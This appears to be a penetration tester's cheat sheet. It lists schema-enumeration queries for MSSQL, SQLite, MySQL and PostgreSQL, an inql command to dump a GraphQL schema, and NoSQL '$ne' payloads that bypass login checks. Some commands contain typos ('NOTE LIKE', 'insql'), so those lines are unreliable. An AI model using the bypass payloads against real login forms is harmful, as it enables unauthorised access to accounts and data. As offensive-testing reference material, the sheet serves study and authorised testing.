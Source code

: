 ## MSSQL queries
```sql
SELECT name FROM master.dbo.sysdatabases # List databases
SELECT * FROM <database_name>.INFORMATION_SCHEMA.TABLES # List tables
SELECT table_name FROM all_tables # List tables
SELECT column_name FROM all_tab_columns WHERE table_name = '<table_name>' # List columns
```

## SQLite queries
References: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' # List tables
SELECT sql FROM sqlite_master WHERE type!='meta' AND SQL NOT NULL AND name NOTE LIKE 'sqlite_%' AND name='<table>' # List columns
```

## MySQL queries
```sql
SELECT schema_name FROM INFORMATION_SCHEMA.schemata # List databases
SELECT table_schema, table_name FROM INFORMATION_SCHEMA.tables WHERE table_schema !='mysql' AND table_schema!='information_schema' AND table_schema != 'performance_schema' AND table_schema != 'sys' # List tables
SELECT table_schema, table_name, column_name FROM INFORMATION_SCHEMA.columns WHERE table_schema!='mysql' AND table_schema!='information_schema' # List columns
```

## Postgresql
In psql:
```bash
\l # Lists all databases on the server
\c [database_name] # Connect to a specific database
\dt # Lists all tables in the current database
\d [table_name] # Describes the structure of a specific table
\du # Lists all roles (users) on the server
\q # Quits the psql interface
SELECT # Retrieves data from a table
INSERT INTO # Inserts data into a table
UPDATE # Modifies data in a table
DELETE # Deletes data from a table
CREATE # Creates a new table, index, or other database object
ALTER # Modifies the structure of a table
DROP # Deletes a table, index, or other database object
GRANT # Grants privileges to a role
REVOKE # Revokes privileges from a role
BEGIN # Begins a transaction
COMMIT # Commits a transaction
ROLLBACK # Rolls back a transaction
```

## GraphQL
Use `inql` to dump schemas: https://github.com/doyensec/inql
```bash
insql -t http://192.168.206.201/graphql -o inql-dump
```

## NoSQL
```
username[$ne]=admin&password[$ne]=admin&login=login
```
In case it's nodejs:
```json
Content-Type: application/json
{
"username":{"$ne":""},
"password":{"$ne":""}
}
```